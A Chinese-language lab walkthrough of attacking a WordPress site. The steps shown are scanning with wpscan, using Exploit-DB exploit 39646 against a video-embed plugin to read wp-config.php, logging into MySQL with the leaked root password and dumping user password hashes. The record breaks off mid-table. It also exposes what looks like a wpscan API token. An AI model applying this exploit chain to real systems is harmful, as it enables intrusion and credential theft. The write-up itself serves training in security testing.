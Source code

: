 wpscan --url https://10.211.55.37:12380/blogblog/  -e u --api-token kJ4bhZCgveCcoGJPER7AOsHJTeFDf90Wfj9zu0V6asc --disable-tls-checks

扫描发现：blogblog/wp-content/存在该信息泄露！

在blogblog/wp-content/plugins/发现：
advanced_video_embed.php信息，存在wordpress advanced video
谷歌搜索：wordpress advanced video exploit   ---可以利用39646
或者：searchsploit wordpress advanced video
发现：php/webapps/39646.py

利用：cp /usr/share/exploitdb/exploits/php/webapps/39646.py .

https://10.211.55.37:12380/blogblog/

import ssl
ssl._create_default_https_context = ssl._create_unverified_context
参考：
https://stackoverflow.com/questions/27835619/urllib-and-ssl-certificate-verify-failed-error


因为是ssl访问，加入即可！加入后：
python 39646.py
然后访问：
https://10.211.55.37:12380/blogblog/wp-content/uploads
目录下会出现图片：221020610.jpeg

--no-check-certificate  ---下载ssl
wget --no-check-certificate https://10.211.55.37:12380/blogblog/wp-content/uploads/221020610.jpeg

└─# file 221020610.jpeg
221020610.jpeg: PHP script, ASCII text
这是一个php代码的txt文本！

cat 221020610.jpeg

define('DB_USER', 'root');
define('DB_PASSWORD', 'plbkac');

获得mysql用户名密码：root/plbkac


9、mysql数据库枚举

mysql -uroot -pplbkac -h 10.211.55.37

show databases;
use wordpress
show tables;
desc wp_users;
select user_login,user_pass from wp_users;
或者select * from wp_users;


+------------+------------------------------------+
| user_login | user_pass                          |
+------------+------------------------------------+
| John       | $P$B7889EMq/erHIuZapMB8GEizebcIy9. |
| Elly       | $P$BlumbJRRBit7y50Y17.UPJ/xEgv4my0 |
| Peter      | $P$BTzoYuAFiBA5ixX2njL0XcLzu67sGD0 |
| barry      | $P$BIp1ND3G70AnRAkRY41vpVypsTfZhk0 |
| heather    | $P$Bwd0VpK8hX4aN.rZ14WDdhEIGeJgf10 |
| garry      | $P$BzjfKAHd6N4cHKiugLX.4aLes8PxnZ1 |
| harry      | $P$BqV.SQ6OtKhVV7k7h1wqESkMh41buR0 |
| scott      | $P$BFmSPiDX1fChKRsytp1yp8Jo7RdHeI1 |